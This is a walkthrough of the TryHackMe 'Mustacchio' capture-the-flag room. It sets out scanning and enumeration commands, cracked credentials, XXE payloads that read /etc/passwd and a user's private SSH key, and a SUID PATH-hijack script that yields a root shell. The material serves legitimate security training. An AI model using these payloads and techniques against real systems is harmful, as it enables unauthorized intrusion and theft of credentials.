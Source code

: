 ```yaml
---

title: Walkthrough - Mustacchio
published: true
---
```


XXE, Enumeration, PrivEsc, Web, PATH. Boot2Root Machine

[https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.12.244 -vvv``

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- pretty standardish website on port 80 not much to see here by an initial look. nothing in the source codes.

- ``gobuster dir -u http://10.10.12.244/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 100 --no-error``

- our gobuster scan finds us ``/custom/`` that has ``/js/`` which contains a ``users.bak`` file. Downloading that and checking it out we find credentials for admin with a SHA1 hash. Crack with hashcat and rockyou ``hashcat -m 100 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b /usr/share/seclists/Passwords/rockyou.txt``

- port 8765 we have a login page we can use these credentials ``admin:bulldog19``
- the source code on ``home.php`` someone left us a comment ``<!-- Barry, you can now SSH in using your key!-->``
- upon submission we also find the location of another ``.bak``, ``dontforget.bak`` which gives us an xml comment and also submitting the form black gives us an alert telling us to submit an xml code.
- pasting the xml from ``dontforget.bak`` lets us see how the code is working.
- we can alter the code in order to give us system information.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&xxe;</name>
  <author>0xskar</author>
  <com>hacked</com>
</comment> 
```

- since we have a hint that barry can login to the server with his rsa key lets get that to our system

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&xxe;</name>
  <author>0xskar</author>
  <com>hacked</com>
</comment> 
```

- save the rsa to a file and ``ssh2john``. Crack using rockyou and ``john``. and we recieve ``urieljames`` for the credentials.

- login to ssh with the key and pass to get our user flag.

* * * 

## What is the user flag?

![](/assets/mustacchio02.png)

* * * 

## What is the root flag?

- ``find / -perm -u=s -type f 2>/dev/null`` we find a file with suid set ``home/joe/live_log``
- this is an ELF, lets get it over to our machine and try to check it out in Ghidra.

it has a main function that used ``tail`` to display the nginx logs. we can also see this by running ``strings``

because this function calls just ``tail`` and not its full path we can do a ``path`` exploit

- create path 

```
barry@mustacchio:/var/log$ cd ~
barry@mustacchio:~$ export PATH=$PWD:$PATH
barry@mustacchio:~$ echo $PATH
/home/barry:/var/log:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

- create ``tail`` in path

```
barry@mustacchio:~$ vi tail
barry@mustacchio:~$ cat tail
#!/usr/bin/python3
import pty
pty.spawn("/bin/bash")
barry@mustacchio:~$ chmod +x tail
barry@mustacchio:~$ /home/joe/live_log 
root@mustacchio:~# 
```

* * * 

